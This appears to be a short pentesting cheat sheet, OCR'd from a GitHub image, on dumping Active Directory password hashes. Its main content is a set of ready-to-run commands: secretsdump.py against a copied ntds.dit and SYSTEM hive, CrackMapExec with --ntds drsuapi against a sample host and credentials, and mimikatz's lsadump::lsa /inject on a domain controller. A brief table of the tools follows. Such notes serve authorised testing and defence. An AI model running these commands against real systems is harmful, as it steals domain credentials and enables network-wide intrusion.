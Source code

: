 ### NTDS.dit dump
```bash
secretsdump.py -system /tmp/SYSTEM -ntds /tmp/ntds.dit -outputfile /tmp/result local

python crackmapexec.py 192.168.1.56 -u VALUE -p pass1234 -d evilcorp.com --ntds drsuapi

# on DC, lsass.exe can dump hashes
lsadump::lsa /inject
```

### Tools
| Command  | Descriptions |
| -------- | ------------ |
| [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) | Performs various techniques to dump hashes from the remote machine without executing any agent there. |
| [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) | A swiss army knife for pentesting networks |
